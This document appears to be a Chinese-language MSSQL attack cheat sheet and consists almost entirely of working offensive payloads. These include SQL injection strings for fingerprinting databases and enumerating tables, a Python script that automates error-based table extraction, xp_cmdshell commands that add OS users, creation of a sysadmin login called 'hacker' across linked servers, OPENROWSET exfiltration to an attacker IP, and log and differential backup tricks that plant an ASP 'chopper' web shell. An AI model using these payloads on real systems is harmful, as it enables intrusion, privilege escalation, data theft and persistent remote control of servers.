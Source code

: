 	执行shell命令
	EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
	select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

	创建用户给权限
	EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
	EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
  ##### 拿shell
	判断数据库
	;and (select count(*) from sysobjects)>0 mssql
	;and (select count(*) from msysobjects)>0 access
	查库
	?id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
	?id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
	查表
```python
import requests
import re
table_list = ['']
	def get_sqlserver_table(table_list, table_num):
		for num in range(0,table_num):
			# print("','".join(table_list))
			sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
			url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
			r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
			res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
			table_name = str(res.group(1))
			table_list.append(table_name)
			print("[{}] - TableName: {}".format(str(r.status_code), table_name))
	if __name__ == "__main__":
		get_sqlserver_table(table_list, 16)
```
	判断是否存在xp_cmdshell
	and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')
	执行命令
	;exec master..xp_cmdshell "net user name password /add"—
	查看权限
	and (select IS_SRVROLEMEMBER('sysadmin'))=1--  //sa
	and (select IS_MEMBER('db_owner'))=1--   //  dbo
	and (select IS_MEMBER('public'))=1--  //public
	站库分离获取服务器IP
	;insert into OPENROWSET('SQLOLEDB','uid=sa;pwd=xxx;Network=DBMSSOCN;Address=你的ip,80;', 'select * from dest_table') select * from src_table;--
	LOG备份
	;alter database testdb set RECOVERY FULL --
	;create table cmd (a image) --
	;backup log testdb to disk = 'c:\wwwroot\shell.asp' with init --
	;insert into cmd (a) values ('<%%25Execute(request("chopper"))%%25>')-- 
	;backup log testdb to disk = 'c:\wwwroot\shell.asp' –
	2000差异备份
	;backup database testdb to disk ='c:\wwwroot\bak.bak';--
	;create table [dbo].[testtable] ([cmd] [image]);--
	;insert into testtable (cmd) values(木马hex编码);--
	;backup database testdb to disk='c:\wwwroot\upload\shell.asp' WITH DIFFERENTIAL,FORMAT;--
	2005差异备份
	;alter/**/database/**/[testdb]/**/set/**/recovery/**/full—
	;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=0x640062006200610063006B00/**/backup/**/database/**/[testdb]/**/to/**/disk=@d/**/with/**/init--
	;create/**/table/**/[itpro]([a]/**/image)—